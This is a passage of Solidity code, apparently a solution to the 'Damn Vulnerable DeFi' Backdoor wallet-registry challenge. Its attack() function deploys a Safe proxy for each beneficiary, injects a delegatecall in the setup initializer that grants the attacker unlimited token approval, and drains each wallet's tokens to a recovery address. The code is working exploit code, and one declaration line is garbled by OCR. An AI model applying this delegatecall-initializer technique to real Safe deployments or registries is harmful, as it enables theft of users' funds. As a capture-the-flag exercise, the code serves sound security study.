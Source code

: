 ```solidity
        address[] memory _beneficiaries,
        address _recovery,
        WalletRegistry _walletRegistry
    ) {
        token = _token;
        singletonCopy = _singletonCopy;
        walletFactory = _walletFactory;
        walletRegistry = _walletRegistry;
        beneficiaries = _beneficiaries;
        recovery = _recovery;
    }

    function approveTokens(DamnValuableToken _token, address spender) external {
        _token.approve(spender, type(uint256).max);
    }

    function attack() external {
        for (uint i = 0; i < beneficiaries.length; i++) {
            address ;
            owners[0] = beneficiaries[i];

            bytes memory delegateCallData = abi.encodeCall(
                this.approveTokens,
                (token, address(this))
            );

            bytes memory initializer = abi.encodeCall(
                Safe.setup,
                (
                    owners,
                    1,
                    address(this),
                    delegateCallData,
                    address(0),
                    address(0),
                    0,
                    payable(address(0))
                )
            );

            SafeProxy proxy = walletFactory.createProxyWithCallback(
                address(singletonCopy),
                initializer,
                1,
                walletRegistry
            );

            token.transferFrom(address(proxy), address(this), token.balanceOf(address(proxy)));
        }

        token.transfer(recovery, token.balanceOf(address(this)));
    }
}

```
